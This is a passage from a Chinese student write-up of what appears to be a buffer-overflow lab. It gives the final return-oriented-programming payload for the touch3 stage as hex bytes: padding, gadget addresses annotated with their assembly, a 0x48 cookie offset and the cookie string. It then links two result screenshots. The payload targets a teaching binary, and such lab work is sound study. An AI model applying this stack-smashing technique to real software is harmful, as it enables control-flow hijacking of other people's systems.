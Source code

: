 又第一条赋值语句与cookie之间空了72个字节，因此cookie地址的偏移量应为0x48，因此最终代码为：

00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 0f 5c 55 55 55 55 00 00 c4 5b 55 55 55 55 00 00 c0 5b 55 55 55 55 00 00 48 00 00 00 00 00 00 00 5c 5c 55 55 55 55 00 00 7c 5c 55 55 55 55 00 00 75 5c 55 55 55 55 00 00 ef 5b 55 55 55 55 00 00 c4 5b 55 55 55 55 00 00 13 5b 55 55 55 55 00 00 31 36 65 32 31 33 31 34

```c
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
0f 5c 55 55 55 55 00 00 movq %rsp,%rax
c4 5b 55 55 55 55 00 00 movq %rax,%rdi
c0 5b 55 55 55 55 00 00 popq %rax
48 00 00 00 00 00 00 00 %rax的值（cookie的偏移量）
5c 5c 55 55 55 55 00 00 movl %eax,%edx
7c 5c 55 55 55 55 00 00 movl %edx,%ecx
75 5c 55 55 55 55 00 00 movl %ecx,%esi
ef 5b 55 55 55 55 00 00 lea  (%rdi,%rsi,1),%rax
c4 5b 55 55 55 55 00 00 movq %rax,%rdi
13 5b 55 55 55 55 00 00 touch3的地址
31 36 65 32 31 33 31 34 cookie对应的十六进制的字符串类型的值
```

### 三、实验结果截图

![1575986839966](C:\Users\12875\AppData\Roaming\Typora\typora-user-images\1575986839966.png)

![1575986742176](C:\Users\12875\AppData\Roaming\Typora\typora-user-images\1575986742176.png)

